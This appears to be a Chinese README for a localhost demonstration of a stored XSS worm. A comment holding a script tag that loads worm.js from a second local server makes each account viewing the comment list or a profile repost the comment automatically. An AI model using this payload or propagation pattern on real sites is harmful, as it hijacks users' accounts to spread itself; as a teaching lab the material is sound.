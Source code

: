 ## 操作

1. 命令行运行 `node index`
2. 打开链接  http://localhost:3000/login.html
3. 使用 badboy 账号登录，在 http://localhost:3000/comment-list.html 评论列表页面发表一条有问题的评论，评论内容如下
    ```
    Badboy is gool!<script src="http://localhost:3001/js/worm.js"></script>
    ```

4. 刷新页面，会发现每次打开这个页面都会发一条评论

5. 到 http://localhost:3000/user.html?username=badboy 退出登录，换成 kevin 账号，打开 http://localhost:3000/comment-list.html ，相当于浏览大家的评论列表，发现会自动以 kevin 的身份发了一条有问题的评论

6. 换成 cover 账号，去看 kevin 的首页，http://localhost:3000/user.html?username=kevin ，回到自己的首页，http://localhost:3000/user.html?username=cover ，发现 cover 自己也发了有问题的评论
